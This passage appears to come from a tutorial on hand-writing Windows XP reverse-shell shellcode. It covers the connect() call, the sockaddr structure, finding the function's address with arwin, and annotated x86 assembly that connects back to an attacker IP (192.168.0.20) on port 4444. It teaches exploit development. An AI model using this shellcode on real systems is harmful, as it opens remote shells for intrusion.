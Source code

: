 Nice, we stored the socket handle in the ESI register that we will need
in the forthcoming functions.

### connect()

The `connect()` call will create the connection back to the attacker
using the socket handle generated by `WSASocketA` that we stored in ESI:

**connect() signature.**

``` cpp
int WSAAPI connect(
  SOCKET         s,
  const sockaddr *name,
  int            namelen
);
```

The `sockaddr` parameter is in turn:

``` cpp
struct sockaddr {
        ushort  sa_family;
        char    sa_data[14];
};
```

Get the address of `connect()`:

**arwin finding connect().**

``` console
C:\Documents and Settings\Administrator>arwin ws2_32 connect
arwin - win32 address resolution program - by steve hanna - v.01
connect is located at 0x71ab4a07 in ws2_32
```

Now that we know the structure of the `connect()` function call and the
address of the function, we can write it in Assembler:

**connect() in Assembler.**

``` x86asm
push 0x1400a8c0         ; Push attacker IP: 192.168.0.20. In reverse order:
                        ; hex(20) = 0x14
                        ; hex(0) = 0x00
                        ; hex(168) = 0xa8
                        ; hex(192) = 0xc0
push word 0x5c11        ; Push port: hex(4444) = 0x115c
xor ebx,ebx             ; Zero out EBX
add bl,0x2              ; sa_family: AF_INET = 2
push word bx            ; Push sa_family parameter
mov ebx,esp             ; EBX now has the pointer to sockaddr structure
push byte 0x16             ; Size of sockaddr: sa_family + sa_data = 16
push ebx                ; Push pointer ('name' parameter)
push esi                ; Push saved socket handler ('s' parameter)
mov ebx,0x71ab4a07      ; Address of connect() on WinXPSP3
call ebx                ; Call connect()
```
